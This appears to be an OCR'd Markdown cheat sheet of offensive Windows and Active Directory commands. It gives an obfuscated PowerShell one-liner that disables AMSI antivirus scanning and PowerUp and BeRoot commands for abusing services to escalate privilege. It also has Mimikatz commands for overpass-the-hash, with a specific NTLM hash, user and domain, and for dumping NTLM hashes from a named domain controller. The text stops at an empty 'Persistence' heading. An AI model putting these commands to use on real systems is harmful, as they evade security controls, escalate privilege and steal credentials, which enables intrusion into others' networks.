 ## AMSI Bypass

- sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

## Services Issues using PowerUp

### Get services with unquoted paths and a space in their name.

- Get-ServiceUnquoted -Verbose

### Get services where the current user can write to its binary path or
change arguments to the binary

- Get-ModifiableServiceFile Verbose

### Get the services whose configuration current user can modify.

- Get-ModifiableService Verbose
- Invoke-ServiceAbuse -Name '<service name>'

## Run all checks from :

### PowerUp
- Invoke-AllChecks

### BeRoot is an executable:
- .\beRoot.exe

### Privesc
- Invoke-PrivEsc

## Over pass the hash

- Invoke-Mimikatz -Command '"sekurlsa::pth /user:yadm.ind01 /domain:ind.ycsccorp.local /ntlm:ae974876d974abd805a989ebead86846 /run:powershell.exe"'

## Extracting NTLM hashes from DC

- Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername ycsc-ind-dc.ind.ycsccorp.local

## Persistence
